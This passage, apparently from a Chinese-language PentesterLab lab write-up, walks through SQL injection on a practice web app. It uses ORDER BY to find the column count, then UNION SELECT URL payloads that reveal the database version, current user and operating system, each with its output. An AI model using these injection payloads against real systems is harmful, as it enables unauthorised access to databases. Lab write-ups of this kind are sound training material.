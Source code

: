         `ORDER BY 5`，出现错误信息`Unknown column '5' in 'order clause' `，同样可说明该数据库列数为4。

        ![](img/order_5.png)

    3. 获取数据库版本信息

        URL：`http://192.168.56.5/cat.php?id=3 UNION SELECT 1,@@version,3,4`

        显示数据库版本信息：`5.1.63-0+squeeze1`

        ![](img/version.png)

    4. 获取当前用户信息

        URL：`http://192.168.56.5/cat.php?id=3 UNION SELECT 1,current_user(),3,4`

        显示当前用户：`pentesterlab@localhost`

        ![](img/current_user.png)

    5. 获取操作系统版本信息

        URL：`http://192.168.56.5/cat.php?id=3 UNION SELECT 1，@@version_compile_os,3,4`

        显示操作系统版本：`debian-linux-gnu`

        ![](img/os.png)
